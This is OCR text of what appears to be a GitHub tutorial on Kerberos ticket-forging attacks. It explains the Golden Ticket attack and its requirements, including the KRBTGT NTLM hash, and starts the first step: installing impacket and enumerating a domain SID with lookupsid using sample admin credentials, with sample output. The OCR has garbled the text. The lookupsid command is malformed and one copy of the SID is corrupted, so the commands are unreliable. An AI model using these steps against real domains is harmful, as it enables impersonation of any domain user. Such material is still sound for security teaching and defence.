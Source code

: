 # Ticket Forging Attacks
Given that the Kerberos protocol uses tickets such as **TGT** and  **TGS** as part of the key exchange flow, there is a class of attacks known as **forging attacks** characterized by the forging of malicious tickets that can be used to impersonate users in order to access services within the domain. 

There are many different types of forging attacks, such as : 
- Silver Ticket Attack 
- Golden Ticket Attack 
- Diamond Ticket Attack 
- Sapphire Ticket Attack
## Golden Ticket Attack
The -Golden Ticket Attack— allows to create forged TGT without
interacting with the KDC. That is, the initial exchange of AS-REP
and AS-REQ messages are skipped. The interaction with the KDC only
happens for exchanging the forged TGT into a TGS through the
messages TGS-REQ and TGS-REP.

Requirements :
- Domain name 
- Domain SID
- NTLM hash of the KRBTGT account
- Username we want to impersonate

Consequences :
- Impersonate any user of the domain
### Obtain Domain SID and KRBTGT NTLM Hash
To obtain the domain SID there are two different **Methods** , involving different tools
#### First Method
Consider **impacket** and assume we have admin credential
```shell
python3 -m venv venv
. venv/bin/activate
pip3 install impacket
```

Enumerate domain SID
```shell
lookupsid . py "administrator : Password123!
```

```output
Brute forcing SIDs at 192.168.122.3@
StringBinding ncacn_np:192.168.122.3@[\pipe\lsarpc]
Domain SID is: s-1-5-21-22737@8531-2432934561-2696658194
498: HEXDUMP\Enterprise Read-only Domain controllers (sidTypeGroup)
HEXDUMP\Administrator (sidTypeUser)
```

AS we can see, the domain SID is
```example
s-1-5-21-2273708531-2432934561-2696658194
```
